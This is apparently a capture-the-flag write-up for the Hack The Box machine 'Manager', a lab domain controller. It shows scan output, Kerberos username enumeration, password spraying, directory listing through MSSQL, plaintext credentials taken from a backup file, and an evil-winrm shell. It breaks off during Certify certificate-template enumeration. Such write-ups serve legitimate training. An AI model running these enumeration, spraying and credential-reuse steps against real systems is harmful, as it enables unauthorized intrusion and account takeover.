

# Manager Writeup
<figure></figure>

## Target IP-Address: 10.10.11.236

Nmap Scan:
```
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain        syn-ack Simple DNS Plus
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Manager
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-12-17 21:54:00Z)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
| -----BEGIN CERTIFICATE-----
| MIIGMDCCBRigAwIBAgITXwAAAAnyIQ82Fp4XhwAAAAAACTANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKREDACTEDR9NhWtdywa07A3
| 5U81h/XKD4e21fDdv4wge+LFubtqzOqOKWXlrOXcfdc7dBdRt+tD3bIcTO63AQFC
| A0xH1Q==
|_-----END CERTIFICATE-----
|_ssl-date: 2023-12-17T21:55:21+00:00; +1h29m59s from scanner time.
445/tcp  open  microsoft-ds? syn-ack
464/tcp  open  kpasswd5?     syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
| -----BEGIN CERTIFICATE-----
| MIIGMDCCBRigAwIBAgITXwAAAAnyIQ82Fp4XhwAAAAAACTANBgkqhkiG9w0BAQsF
| ADBIMRMwEREDACTEDNqUgnTODMgHr0IYuPWTy1U8nMR9NhWtdywa07A3
| 5U81h/XKD4e21fDdv4wge+LFubtqzOqOKWXlrOXcfdc7dBdRt+tD3bIcTO63AQFC
| A0xH1Q==
|_-----END CERTIFICATE-----
|_ssl-date: 2023-12-17T21:55:21+00:00; +1h29m59s from scanner time.
1433/tcp open  ms-sql-s      syn-ack Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-12-17T21:55:22+00:00; +1h30m00s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-15T15:44:57
| Not valid after:  2053-12-15T15:44:57
| MD5:   bd3b610d6b0100937a4ea028f044c028
| SHA-1: 43fac0d25203b809c8e41a0da1b57f0ce3275dbc
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigREDACTEDB80jv2kYcjEKiojA8M2Yy/
| F/j/Q73boLhpAseOECvrMFWrjhD1mBVpcDjC85RRC7ClF+TKxvZLxu8oO/9N+ibK
| ISf4zg==
|_-----END CERTIFICATE-----
3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-12-17T21:55:22+00:00; +1h30m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
| -----BEGIN CERTIFICATE-----
| MIIGMDCCBRigAwIBAgITXwAAAAnyIQ82Fp4XhwAAAAAACTANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZREDACTEDwa07A3
| 5U81h/XKD4e21fDdv4wge+LFubtqzOqOKWXlrOXcfdc7dBdRt+tD3bIcTO63AQFC
| A0xH1Q==
|_-----END CERTIFICATE-----
3269/tcp open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
| -----BEGIN CERTIFICATE-----
| MIIGMDCCBRigAwIBAgITXwAAAAnyIQ82Fp4XhwAAAAAACTANBgkqhkiG9w0BAQsF
| ADBIREDACTED0/6+OEaZHFQw
| 5j26ZQnOvmTaOmy+TI2Be3+PQNqUgnTODMgHr0IYuPWTy1U8nMR9NhWtdywa07A3
| 5U81h/XKD4e21fDdv4wge+LFubtqzOqOKWXlrOXcfdc7dBdRt+tD3bIcTO63AQFC
| A0xH1Q==
|_-----END CERTIFICATE-----
|_ssl-date: 2023-12-17T21:55:21+00:00; +1h29m59s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h29m59s, deviation: 0s, median: 1h29m58s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64798/tcp): CLEAN (Timeout)
|   Check 2 (port 4401/tcp): CLEAN (Timeout)
|   Check 3 (port 12164/udp): CLEAN (Timeout)
|   Check 4 (port 58671/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-12-17T21:54:44
|_  start_date: N/A
```

## Enumeration

Since we know this is a windows machine, Let's try to bruteforce some users.
The wordlist I've used is from the SecLists

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~]
└──╼ $./kerbrute_linux_amd64 userenum -d manager.htb ./xato-net-10-million-usernames.txt --dc dc01.manager.htb

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/18/23 - Ronnie Flathers @ropnop

2023/12/18 05:51:46 >  Using KDC(s):
2023/12/18 05:51:46 >  	dc01.manager.htb:88

2023/12/18 05:51:49 >  [+] VALID USERNAME:	 ryan@manager.htb
2023/12/18 05:51:52 >  [+] VALID USERNAME:	 guest@manager.htb
2023/12/18 05:51:54 >  [+] VALID USERNAME:	 cheng@manager.htb
2023/12/18 05:51:56 >  [+] VALID USERNAME:	 raven@manager.htb
2023/12/18 05:52:04 >  [+] VALID USERNAME:	 administrator@manager.htb
2023/12/18 05:52:24 >  [+] VALID USERNAME:	 Ryan@manager.htb
2023/12/18 05:52:27 >  [+] VALID USERNAME:	 Raven@manager.htb
2023/12/18 05:52:39 >  [+] VALID USERNAME:	 operator@manager.htb
2023/12/18 05:54:05 >  [+] VALID USERNAME:	 Guest@manager.htb
2023/12/18 05:54:07 >  [+] VALID USERNAME:	 Administrator@manager.htb
2023/12/18 05:55:26 >  [+] VALID USERNAME:	 Cheng@manager.htb
```

Shifted to kali since i wasnt able to make crackmapexec work in my Parrot

```
┌──(kali㉿kali)-[~/Desktop/htb/manager]
└─$ crackmapexec smb 10.10.11.236 -u user.txt -p user.txt --no-brute --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Ryan:Ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Raven:Raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Administrator:Administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Cheng:Cheng STATUS_LOGON_FAILURE 
```

I tried gaining access to the MSSQL using impacket with the same credentials.

```
┌──(kali㉿kali)-[~/Desktop/htb/manager]
└─$ impacket-mssqlclient -port 1433 manager.htb/operator:operator@10.10.11.236 -window
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

js                                    1      0   

service.html                          1      1   

web.config                            1      1   

website-backup-27-07-23-old.zip       1      1   

SQL (MANAGER\Operator  guest@master)> 
```

Looked into the wwwroot folder usually where the web content is stored.

I Downloaded the `website-backup-27-07-23-old.zip` from the server and found an interesting file.

<figure></figure>

Upon investigating `.old-conf.xml`, I found credentials for `raven`.

```
┌──(kali㉿kali)-[~/Desktop/htb/manager]
└─$ cat .old-conf.xml 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

I tried gaining access to it using `evil-winrm`.

## User Flag

```
┌──(kali㉿kali)-[~/Desktop/htb/manager]
└─$ evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Desktop> cat user.txt
56cf89d6dd**redacted**356baed4df43
```

## Root Flag

In the desktop I also found a file names `certify.exe` which usually should not be present in a system. It might be something to do with permissions or priviledge escalation.

I started by checking if there were any vulnerable templates.

```
*Evil-WinRM* PS C:\Users\Raven\DEsktop> ./Certify.exe find \vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'

[*] Listing info about the Enterprise CA 'manager-DC01-CA'

    Enterprise CA Name            : manager-DC01-CA
    DNS Hostname                  : dc01.manager.htb
    FullName                      : dc01.manager.htb\manager-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=manager-DC01-CA, DC=manager, DC=htb
    Cert Thumbprint               : ACE850A2892B1614526F7F2151EE76E752415023
    Cert Serial                   : 5150CE6EC048749448C7390A52F264BB
    Cert Start Date               : 7/27/2023 3:21:05 AM
    Cert End Date                 : 7/27/2122 3:31:04 AM
    Cert Chain                    : CN=manager-DC01-CA,DC=manager,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
    Enrollment Agent Restrictions : None

[*] Available Certificates Templates :

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : User
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Users          S-1-5-21-4078382237-1492182817-2568127209-513
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : EFS
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Encrypting File System
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Users          S-1-5-21-4078382237-1492182817-2568127209-513
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : Administrator
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Microsoft Trust List Signing, Secure Email
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : EFSRecovery
    Schema Version                        : 1
    Validity Period                       : 5 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : File Recovery
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : Machine
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    mspki-enrollment-flag                 : AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Computers      S-1-5-21-4078382237-1492182817-2568127209-515
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : DomainController
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DIRECTORY_GUID, SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : WebServer
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : SubCA
    Schema Version                        : 1
    Validity Period                       : 5 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : <null>
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : DomainControllerAuthentication
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DNS
    mspki-enrollment-flag                 : AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Server Authentication, Smart Card Logon
    mspki-certificate-application-policy  : Client Authentication, Server Authentication, Smart Card Logon
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : DirectoryEmailReplication
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DIRECTORY_GUID, SUBJECT_ALT_REQUIRE_DNS
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Directory Service Email Replication
    mspki-certificate-application-policy  : Directory Service Email Replication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
